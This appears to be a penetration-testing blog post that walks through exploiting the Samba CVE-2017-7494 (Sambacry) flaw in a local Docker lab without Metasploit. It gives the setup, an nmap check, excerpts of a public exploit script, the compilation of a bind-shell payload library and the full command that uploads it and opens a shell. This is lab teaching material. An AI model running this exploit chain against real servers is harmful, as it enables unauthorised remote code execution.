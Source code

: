 ```yaml
---
layout: post
title:  "EternalRed aka Sambacry without Metasploit"
date:   2020-05-31 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [EternalRed, Without Metasploit, Exploit modification, Sambacry]
---
```


<h2>Prologue:</h2>
In this blog post we are going to explore using exploits without Metasploit at all. After EternalBlue, our next exploit will be EternalRed aka Sambacry.

<h3> Environment Setup </h3>
The easiest way to find an environment to test on, is to set up the docker machine with the instruction from the exploit page: https://github.com/opsxcq/exploit-CVE-2017-7494
But first we need to install docker. I will just show you all the commands I used to make it work on my KALI environment. The last line with hello world is just to test that everything worked:
```
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt-get update
sudo apt-get remove docker docker-engine docker.io
sudo apt-get install docker-ce
sudo docker run hello-world
```

Then downloading and starting the vulnerable machine. I added some more open ports:

```
docker run --rm -it \
       -p 137-139:137-139 \
       -p 445:445 -p 6699:6699 \
	   -p 4444:4444 -p 5555:5555 \
       vulnerables/cve-2017-7494
```
If you get the message : Cannot connect to the Docker daemon... try to start docker first.

```
service docker start
```

In case you would like to conect to the docker machine you need to do two things. First determinate the container ID then connect to the container.

```
docker ps
docker exec -ti id bash
```

![connectToContainer](/img/EternalRed/connectToContainer.png)

<h2>Detection</h2>

So we want to detect if the taget is vulnerable to Sambacry. We will use Nmap for this.

```
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 127.0.0.1
```

![detection](/img/EternalRed/detect.png)

Oh we are vulnerable. I set the target ip to 127.0.0.1 because the docker command we used to start the box binds the port 445 to our local port 445. So we actually targeted the vulnerable box, not our attacker machine.

<h2>The Exploit</h2>

First let's grab the exploit and install everything needed.

```
git clone https://github.com/opsxcq/exploit-CVE-2017-7494
cd exploit-CVE-2017-7494
pip install -r requirements.txt
```

Now we have all setup. But before running it, Let's check the code. Starting with exploit.py we should go down until the __main__ function. Here is where are code execution starts. 

```
    ap = ArgumentParser(description="Sambacry (CVE-2017-7494) exploit by opsxcq")
    ap.add_argument("-t", "--target", required=True, help="Target's hostname")
    ap.add_argument("-e", "--executable", required=True, help="Executable/Payload file to use")
    ap.add_argument("-s", "--remoteshare", required=True, help="Executable/Payload shared folder to use")
    ap.add_argument("-r", "--remotepath", required=True, help="Executable/Payload path on remote file system")
    ap.add_argument("-u", "--user", required=False, help="Samba username (optional")
    ap.add_argument("-p", "--password", required=False, help="Samba password (optional)")
	ap.add_argument("-P", "--remoteshellport", required=False, help="Connect to a shell running in the remote host after exploitation")
```

This block is the parameters block. We can see what is needed to run the exploit. We have a remote shell port option too. This is in case we want the code to automatically connect to the bind shell which runs on the target.
Under that we can see a port already set up to 445. We can change it but SMB will probably be on port 445 so let's leave it for now. Now let's go to the function named exploit. 
First we open the smb connection to the target. Then we try to upload the file given in the parameter. Then we execute the exploit.

<h2>Exploit execution<h2>
This is the actual exploitation part. So far only the exploit code has been uploaded. If everything goes right, this few line will execute the uploaded code. The main idea is, that Samba can load libraries from shared locations. 
This information will be handy because we know now that only special files can be uploaded and executed. Now, for the execution to work, we need the full path of the uploaded payload. This is the point where in case the payload does not seem to execute,
you need to make adjustments. The actual malformed request should not be changed just the parameters. First let's not update the code here, but give ourself a better view on what's actually happening by writhing the actual malformed request to console.
Modified code:

```
    triggerModule = r'ncacn_np:%s[\pipe\%s]' % (target, remotepath)
	print("The exploit code section looks like this:")
	print(triggerModule)
    rpcTransport = transport.DCERPCTransportFactory(triggerModule)
    dce = rpcTransport.get_dce_rpc()
    triggerThread = Thread(target=dceTrigger, args=(dce,))
    triggerThread.daemon = True
    triggerThread.start()
```

After this we only have the handler. In case our payload is a bind shell, this handler will conect to it. We can delete this if we want to connect with a different methode. 
There is also a test if the exploit was successfull or not. Uname -a will run when the handler extabilish connection.

<h2>Payload<h2>
Let's check the payload givven for this exploit. This is a bind shell written in C. Looking at the code of bindshell-samba.c we can see a nicely commented code. Without going into much details, the only thing we need to take a look is where the port is set.

```
    hostAddr.sin_family = AF_INET;
    hostAddr.sin_port = htons(6699);
    hostAddr.sin_addr.s_addr = htonl(INADDR_ANY);
```

We can see that the listening port is set to 6699. We can change it anytime. 
Let's comply the payload

```
gcc -c -fpic bindshell-samba.c
gcc -shared -o libbindshell-samba.so bindshell-samba.o

```

<h2>All set <h2>
With that tiny little modification, the exploit is ready to run. By using the given command we can exploit the docker environment.

```
./exploit.py -t localhost -e libbindshell-samba.so \
             -s data -r /data/libbindshell-samba.so \
             -u sambacry -p nosambanocry -P 6699

```
![firstRun](/img/EternalRed/firstRun.png)